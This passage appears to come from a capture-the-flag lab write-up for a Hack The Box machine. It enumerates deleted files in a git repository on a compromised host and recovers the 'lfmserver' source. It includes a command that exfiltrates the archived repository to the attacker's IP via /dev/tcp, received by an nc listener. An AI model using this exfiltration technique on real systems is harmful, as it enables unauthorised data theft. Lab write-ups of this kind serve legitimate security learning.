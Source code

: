 ### Enumeration of the git repo
```bash
root@8d8f7bbd30e4:/usr/src/lfm/.git# git log --diff-filter=D --summary
commit 7c6609240f414a2cb8af00f75fdc7cfbf04755f5 (HEAD -> master)
Author: gbyolo <gbyolo.htb>
Date:   Mon May 20 17:04:37 2019 +0200

    Removed meow files. THIS REPOSITORY IS ON SVN

 delete mode 100644 README
 delete mode 100755 lfmserver

commit aa139d6caea2182c73341919150d9f5cd05e7468
Author: gbyolo <gbyolo@htb>
Date:   Mon Mar 11 09:39:39 2019 +0100

    Switched to SVN for repository hosting. This will be empty

 delete mode 100644 Makefile
 delete mode 100644 README
 delete mode 100644 arg_parsing.c
 delete mode 100644 arg_parsing.h
 delete mode 100644 file.c
 delete mode 100644 file.h
 delete mode 100644 files/try
 delete mode 100644 lfm.c
 delete mode 100644 lfm.h
 delete mode 100644 lfmserver.c
 delete mode 100644 lfmserver.conf
 delete mode 100644 lfmserver.h
 delete mode 100644 log.c
 delete mode 100644 log.h
 delete mode 100644 md5.c
 delete mode 100644 md5.h
 delete mode 100644 params_parsing.c
 delete mode 100644 params_parsing.h
 delete mode 100644 process.c
 delete mode 100644 process.h
 delete mode 100644 socket_io.c
 delete mode 100644 socket_io.h
 delete mode 100644 thread.c
 delete mode 100644 thread.h
```
Using `git log`, we can see past commits. Seems like the files were deleted… Luckily, we can easily recover them. We want to recover the `lfmserver`, as well as the source.

We can transfer the whole git repository to our machine, by archiving it and then sending it to our machine.

```bash
root@8d8f7bbd30e4:/usr/src# tar -czf lfm.tar.gz lfm/
root@8d8f7bbd30e4:/usr/src# cat lfm.tar.gz > /dev/tcp/10.10.14.5/1234

root@silence:~# nc -lvnp 1234 > lfm.tar.gz
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.173.
Ncat: Connection from 10.10.10.173:39164.
root@silence:~# tar -xzf lfm.tar.gz
```
```bash
root@silence:~/lfm# git checkout 1bbc518518cdde0126103cd4c6e7e6dfcdd36d3e
root@silence:~/lfm# cat README
This is an implementation of the Lightweight File Manager LFM Protocol.
```